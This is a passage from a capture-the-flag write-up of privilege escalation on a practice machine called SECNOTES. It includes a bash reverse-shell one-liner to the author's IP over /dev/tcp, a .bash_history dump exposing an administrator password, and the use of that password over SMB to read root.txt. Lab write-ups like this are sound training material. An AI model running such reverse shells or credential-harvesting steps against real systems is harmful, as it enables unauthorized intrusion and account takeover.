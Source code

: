 Now seeing I was root I didn't want to enumerate the whole subfilesystem with that command, so I decided to make yet another reverse shell. I ran the following command and listened with netcat on the same port.

```console
.\bash.exe -c "bash -i >& /dev/tcp/10.10.13.151/8080 0>&1"
```

*Successful reverse shell to linux subfilesystem*

![Img](images/linux1.png "Img")

I looked at the contents of ``.bash_history`` and they turned out to be the key to everything, for there were some credentials:

```console
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
```

With these credentials we can access the other directories through SMB!

I used ``administrator:u6!4ZwgwOM#^OBf#Nwnh`` and got in to the ``C$`` directory. From there I just needed to go to ``\Users\Administrator\root.txt`` to get the hash.
